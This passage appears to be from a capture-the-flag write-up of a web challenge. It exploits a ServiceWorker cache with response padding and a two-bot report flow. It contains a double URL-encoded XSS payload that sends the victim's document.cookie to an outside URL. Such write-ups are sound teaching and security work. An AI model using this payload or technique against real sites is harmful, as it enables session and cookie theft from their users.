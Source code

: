 so lets pad the response, and inject an XSS payload in `user`:

![XSS response](assets/xss_response.png)

i used `window.location` just to avoid the caching done by the `ServiceWorker`.

the catch here is that the exploit requires two bots interaction which is very unusual for XSS bots but it makes sense as the app is usuing a `ServiceWorker` which is persistent, which itself uses `Cache Storage`.

the payload should be double URL encoded, as the `ServiceWorker` would consume the first URL encoding.

- the first URL to report would be: `https://https://escape.nzeros.me/?user =%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%35%25%37%33%25%36%33%25%36%31%25%37%30%25%36%35%25%32%65%25%36%65%25%37%61%25%36%35%25%37%32%25%36%66%25%37%33%25%32%65%25%36%64%25%36%35%25%32%66%25%36%38%25%36%35%25%36%63%25%36%63%25%36%66%25%37%37%25%36%66%25%37%32%25%36%63%25%36%34%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%33%64%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%37%38%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%37%62%25%32%35%25%33%32%25%33%32%25%37%34%25%36%66%25%36%62%25%36%35%25%36%65%25%32%35%25%33%32%25%33%32%25%33%61%25%32%35%25%33%32%25%33%32%25%35%33%25%32%35%25%33%32%25%33%32%25%32%63%25%32%35%25%33%32%25%33%32%25%37%35%25%37%33%25%36%35%25%37%32%25%32%35%25%33%32%25%33%32%25%33%61%25%32%35%25%33%32%25%33%32%25%32%35%25%33%33%25%34%33%25%36%39%25%36%64%25%36%37%25%32%66%25%37%33%25%37%32%25%36%33%25%33%64%25%32%35%25%33%32%25%33%37%25%37%38%25%32%35%25%33%32%25%33%37%25%32%66%25%36%66%25%36%65%25%36%35%25%37%32%25%37%32%25%36%66%25%37%32%25%33%64%25%32%37%25%36%63%25%36%66%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%33%64%25%35%35%25%35%32%25%34%63%25%33%66%25%36%36%25%36%63%25%36%31%25%36%37%25%33%64%25%32%34%25%37%62%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%36%33%25%36%66%25%36%66%25%36%62%25%36%39%25%36%35%25%37%64%25%36%30%25%32%37%25%32%35%25%33%33%25%34%35%25%36%31%25%36%31%25%36%31%25%36%31%25%32%35%25%33%32%25%33%32%25%37%64`.
- the second url to report would be: `https://escape.nzeros.me/helloworld`.
